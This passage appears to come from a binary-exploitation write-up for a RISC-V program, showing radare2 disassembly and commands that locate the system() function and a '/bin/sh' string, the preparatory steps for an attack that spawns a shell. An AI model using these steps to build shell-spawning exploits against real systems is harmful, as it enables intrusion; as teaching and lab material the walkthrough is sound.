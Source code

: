 ```text
│           ; arg int64_t arg_2d0h @ sp+0x2d0
│           0x000153a2      19c1           beqz a0, 0x153a8
│           0x000153a4      6ff03fcd       j 0x15076
│           0x000153a8      37e50400       lui a0, 0x4e
│           0x000153ac      4111           addi sp, sp, -16
│           0x000153ae      130585dc       addi a0, a0, -568
│           0x000153b2      06e4           sd ra, 8(sp)
│           0x000153b4      eff03fcc       jal ra, 0x15076
│           0x000153b8      a260           ld ra, 8(sp)
│           0x000153ba      13351500       seqz a0, a0
└           0x000153be      4101           addi sp, sp, 16
│           0x000153c0      8280           ret
[0x0001539a]> s 0x000153a2
[0x000153a2]> afn system
[0x000153a2]> pd 1
            ; CALL XREF from fcn.00010224 @ +0x10a
            ;-- fcn.000153a2:
┌ 32: int system (const char *string);
│ bp: 4 (vars 0, args 4)
│ sp: 6 (vars 0, args 6)
│ rg: 0 (vars 0, args 0)
│           0x000153a2      19c1           beqz a0, 0x153a8
```

In detail, the commands do the following:

- `aaa`: analyze the executable
- `/ad li a7, 221`: find where the `execve(2)` syscall number is used
- `s 0x00021650`: seek to its location
- `sf.`: seek to the start of the function
- `afn execve`: rename it to `execve`
- `axt`: find x-refs to the `execve` function
- `s 0x1539a`: seek to a specific call that we think to be the one in the `system` function
- `pd 25`: disassemble the next 25 instructions to discover the beginning of this function since Radare2 is not able to understand to which function the gadget belongs to
- `s 0x000153a2`: seek to it
- `afn system`: rename the symbol to `system`

After the analysis, we discover that the address of the `system(3)` function is `0x153a2`.

#### Finding /bin/sh

In order to find the string we can issue the following command in Radare2:

```text
[0x000101f8]> / /bin/sh
Searching 7 bytes in [0x6eae0-0x701d8]
hits: 0
Searching 7 bytes in [0x6cb60-0x6eae0]
hits: 0
Searching 7 bytes in [0x10000-0x6b0a2]
hits: 1
0x0004ddc0 hit0_0 .sh-c/bin/shexit 0wfileop.
[0x000101f8]> psz @ 0x0004ddc0
/bin/sh
```

